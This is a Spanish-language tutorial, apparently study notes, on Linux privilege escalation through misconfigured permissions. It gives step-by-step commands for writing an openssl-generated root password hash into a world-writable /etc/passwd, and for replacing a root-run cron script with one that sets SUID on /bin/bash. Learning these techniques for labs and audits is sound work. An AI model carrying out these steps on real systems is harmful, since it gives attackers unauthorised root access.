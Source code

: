 # Abuso de permisos incorrectamente implementados

Tags: #Linux #PermisosIncorrectos  #Escalada #Root #Privilegios

En sistemas Linux, los archivos y directorios tienen permisos que se utilizan para controlar el acceso a ellos. Los permisos se dividen en tres categorías: propietario, grupo y otros. Cada categoría puede tener permisos de lectura, escritura y ejecución. Los permisos de un archivo pueden ser modificados por el propietario o por el superusuario del sistema.

El abuso de permisos incorrectamente implementados ocurre cuando los permisos de un archivo crítico son configurados incorrectamente, permitiendo a un usuario no autorizado acceder o modificar el archivo. Esto puede permitir a un atacante leer información confidencial, modificar archivos importantes, ejecutar comandos maliciosos o incluso obtener acceso de superusuario al sistema.

De esta forma, un atacante experimentado podría aprovecharse de esta falla para elevar sus privilegios en el mejor de los casos. Una de las herramientas encargadas de aplicar este reconocimiento en el sistema es ‘**lse**‘. Linux Smart Enumeration (LSE) es una herramienta de enumeración de seguridad para sistemas operativos basados en Linux, diseñada para ayudar a los administradores de sistemas y auditores de seguridad a identificar y evaluar vulnerabilidades y debilidades en la configuración del sistema.

LSE está diseñado para ser fácil de usar y proporciona una salida clara y legible para facilitar la identificación de problemas de seguridad. La herramienta utiliza comandos de Linux estándar y se ejecuta en la línea de comandos, lo que significa que no se requiere software adicional. Además, enumera una amplia gama de información del sistema, incluyendo usuarios, grupos, servicios, puertos abiertos, tareas programadas, permisos de archivos, variables de entorno y configuraciones del firewall, entre otros.

A continuación, se os proporciona el enlace directo al proyecto de GitHub correspondiente a esta herramienta:

- **Linux Smart Enumeration**: [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)


## Permisos incorrectos

```bash 
❯ find / -writable 2>/dev/null | grep -vE "python3.10|proc"          # Podemos encontrar archivos que tengan capacidad de escritura
```

```bash
-rw-r--rw- 1 root root 8756 Feb 7 2022 /etc/passwd                   # Podemos encontrar que el /etc/passwd tiene los permisos mal implementados
```

Para este tipo de escalada:
* Primero debemos de ver que otros puedan  modificar el archivo /etc/passwd
* Después debemos de meter una passwd hardcodeada en la parte de **X** en root, en un formato hash correspondiente.

```python 
❯ cat /etc/passwd

root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

Las passwd las lee del archivo que esta en el **/etc/shadow** 
Pero para este tipo de escalada lo que haremos será que no le daremos la oportunidad de que al momento de poner la passwd la lea del shadow. Y que la passwd que lea será la que esta en el **/etc/passwd** haciéndola que la tome como prioritaria y así nosotros la podamos colocar.

```bash 
❯ openssl passwd                # Esta herramienta nos permite que para una palabra dada me genere un hash que es la propia passwd pero en un formato que el /etc/passwd logra interpretar, ya que por defecto no podemos colocar la passwd en texto claro
```

Después modificamos el **/etc/passwd** y agregamos el hash que nos arrojo la herramienta anterior. 

```python 
❯ nano /etc/passwd

root:$1$MEkVfoo5$2ubSWdbi0QZcUuY6VkUBY.:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

Una vez modificado migramos al usuario root
```bash 
❯ su root                       # Cambiamos de usuario e ingresamos la palabra que utilizamos en la herramienta de openssl y la tomara como correcta porque la compara con el /etc/passwd
```

* También, podemos usar la herramienta de **lse.sh** o **LinPeas**

* Caso 2:
Cuando tenemos un archivo en nuestro dir que se esta ejecutando cada cierto tiempo y quien lo ejecuta es root. Tareas CRON 
```bash 
-rwxr-xr-x 1 root root 8756 Feb 7 2022 example.sh                   # Miramos sus privilegios y nos damos cuenta que no lo podemos modificar 
```

Pero como este archivo se encuentra en nuestro dir, lo que haríamos seria eliminarlo. 

```bash 
❯ rm example.sh                  # Eliminamos el archivo y despues nos creamos uno con el contenido que querramos que ejecute, claro con el mismo nombre del anterior
❯ nano example.sh                
❯ chmod +x exmaple.sh 

# Le agregamos el contenido que queremos que se ejecute 
#!/bin/bash 
chmod u+s /bin/bash             # Haremos que cuando se ejecute nos otorgue un permiso SUID a la bash 
```

```bash 
❯ watch -n 1 ls -l /bin/bash                                       # Miramos cada seg el privilegio del /bin/bash
-rwsr-xr-x 1 root root 8756 Feb 7 2022 /bin/bash                   # Miramos como ya tiene permisos SUID
```

